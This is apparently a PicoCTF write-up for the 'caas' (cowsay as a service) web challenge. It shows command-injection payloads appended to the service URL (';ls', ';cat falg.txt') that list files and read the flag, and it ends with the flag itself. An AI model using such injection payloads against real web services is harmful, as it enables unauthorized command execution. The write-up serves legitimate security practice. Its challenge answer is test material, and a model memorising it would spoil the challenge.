 # WriteUp PicoCTF

# caas - Web Exploition

## Statement

![](Images/caas.jpg =300x300)

Link to that website [cass](https://caas.mars.picoctf.net/cowsay/message)

## Solution
With cowsay service, we have a linux commands vulnerability.
Try with this payload [https://caas.mars.picoctf.net/cowsay/message;ls](https://caas.mars.picoctf.net/cowsay/message;ls) and we have:

![](Images/caas1.png)

Here we see the falg.txt. Cat this file with the payload [https://caas.mars.picoctf.net/cowsay/message;ls;cat%20falg.txt](https://caas.mars.picoctf.net/cowsay/message;ls;cat%20falg.txt) and we have:

Images/caas2.png)

## Flag
>**picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}**